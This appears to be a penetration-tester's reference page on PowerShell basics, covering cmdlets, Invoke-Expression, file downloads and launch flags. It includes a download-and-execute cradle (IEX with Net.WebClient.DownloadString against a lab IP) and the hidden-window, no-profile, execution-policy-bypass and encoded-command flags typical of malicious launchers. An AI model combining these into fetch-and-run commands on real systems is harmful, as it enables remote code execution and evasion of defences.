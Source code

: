 # Powershell Basics

Microsoft has a free course on Introduction to Powershell [here](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) on their website. Information on [about\_Powershell.exe](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_powershell\_exe?view=powershell-5.1\&viewFallbackFrom=powershell-7.2).

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

### Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

## Commands

* `IEX` OR `Invoke Expression`
  * The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.

### Download files:

*   Invoke-WebRequest http://`(IP)`:(PORT)/(FILE) -Outfile (Outputfile)

    * Invoke-WebRequest -URI http://192.168.1.52:8000/test.txt -Outfile Downloaded.txt



![](<../../.gitbook/assets/image (113).png>)

* "IEX (New-Object Net.WebClient).DownloadString('URL')"
  * IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.52:8000/test.txt')

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.
